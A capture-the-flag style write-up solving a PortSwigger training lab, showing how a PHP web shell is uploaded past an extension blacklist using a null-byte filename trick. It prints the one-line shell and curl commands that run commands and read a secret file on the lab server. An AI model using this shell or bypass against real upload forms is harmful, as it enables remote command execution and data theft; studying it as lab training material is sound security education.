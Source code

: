 # Web shell upload via obfuscated file extension

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-obfuscated-file-extension), you'll learn: Web shell upload via obfuscated file extension! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab contains a vulnerable image upload function. Certain file extensions are blacklisted, but this defense can be bypassed using a classic obfuscation technique.

To solve the lab, upload a basic PHP web shell, then use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: `wiener:peter`

## Exploitation

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-5/images/Pasted%20image%2020221216023847.png)

**Login as user `wiener`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-5/images/Pasted%20image%2020221216023859.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-5/images/Pasted%20image%2020221216023906.png)

In previous labs, we found the image upload function is vulnerable.

**We can try to upload a PHP web shell:**
```php
<?php system($_GET['cmd']); ?>
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-5/images/Pasted%20image%2020221216024234.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-5/images/Pasted%20image%2020221216024251.png)

**However, it rejects because we're not uploading a jpg or png file.**

**To bypass this, we can rename our web shell file to `webshell.php.jpg`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-5/images/Pasted%20image%2020221216024416.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-5/images/Pasted%20image%2020221216024425.png)

We successfully uploaded the PHP web shell!

**Let's verify does it work or not:**
```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/File-Upload-Vulnerabilities]
└─# curl https://0a7200ad036e3545c4780f4d007600f9.web-security-academy.net/files/avatars/webshell.php.jpg --get --data-urlencode "cmd=cat /home/carlos/secret"
<?php system($_GET['cmd']); ?>
```

Nope.

**How about using a null byte(`%00`) and append the `.jpg` extension?**

By doing that, the null byte will cancel out the `.jpg` extension.

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-5/images/Pasted%20image%2020221216024839.png)

**File uploaded, does it work?**
```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/File-Upload-Vulnerabilities]
└─# curl https://0a7200ad036e3545c4780f4d007600f9.web-security-academy.net/files/avatars/webshell.php --get --data-urlencode "cmd=id"                     
uid=12002(carlos) gid=12002(carlos) groups=12002(carlos)
```

**It worked! Let's `cat` the `secret` file!**
```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/File-Upload-Vulnerabilities]
└─# curl https://0a7200ad036e3545c4780f4d007600f9.web-security-academy.net/files/avatars/webshell.php --get --data-urlencode "cmd=cat /home/carlos/secret"
FFNCTnwaWTITzEr6MKrDhRN5FfTAS3XV
```

# What we've learned:

1. Web shell upload via obfuscated file extension